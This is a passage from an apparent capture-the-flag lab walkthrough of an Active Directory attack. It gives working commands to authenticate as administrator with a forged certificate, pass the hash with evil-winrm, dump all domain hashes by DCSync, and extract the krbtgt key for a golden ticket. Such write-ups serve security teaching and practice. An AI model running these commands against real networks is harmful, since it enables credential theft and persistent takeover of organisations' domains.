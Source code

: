 #### Requesting A TGT With Our Certificate &amp; Getting The Administrator Hash: {#requesting-a-tgt-with-our-certificate-and-getting-the-administrator-hash}

Now we can use this certificate to request a ticket granting ticket on behalf of the administrator, this will also reveal the administrator's hash.

```shell
certipy-ad auth -username "administrator" -pfx administrator.pfx -domain $domain -dc-ip $box
```

It works!
![](/ox-hugo/2025-09-18-074038_.png)

This means we can either authenticate with the hash or the ticket.

Let's get our root flag using evil-winrm and the hash.

```shell
evil-winrm -i $box -u administrator -H $hash
```

{{< figure src="/ox-hugo/2025-09-17-210540_.png" >}}

If we want to use the provided ticket to authenticate with evil-winrm we have to use the below syntax.

```shell
KRB5CCNAME='./administrator.ccache' evil-winrm -i dc.$domain -r $domain
```

{{< figure src="/ox-hugo/2025-09-18-163254_.png" >}}

+Important Note+: If you get the error below, I have found you just need to reload the `BANKING$.ccache` into the ENV `KRB5CCNAME` again&#x2026;.I'm not sure why but it seems to work.
![](/ox-hugo/2025-09-18-073818_.png)

## 4. Persistence: {#4-dot-persistence}

### Perform DCSync Attack Using netexec: {#perform-dcsync-attack-using-netexec}

Now we have the administrator hash lets perform a dcsync attack to dump all other hashes remotely.

```shell
netexec smb $box -u $user -H $hash -M ntdsutil
```

{{< figure src="/ox-hugo/2025-09-18-074406_.png" >}}

### Creating a Kerberos Golden Ticket: {#creating-a-kerberos-golden-ticket}

Let's create a golden ticket so we can always get back in, granted we have administrator ticket.

Now we will use `impacket-secretsdump` to retrieve the `aeskey` of the `krbtgt` account:

```shell
impacket-secretsdump $domain/$user@$box -hashes :$hash
```
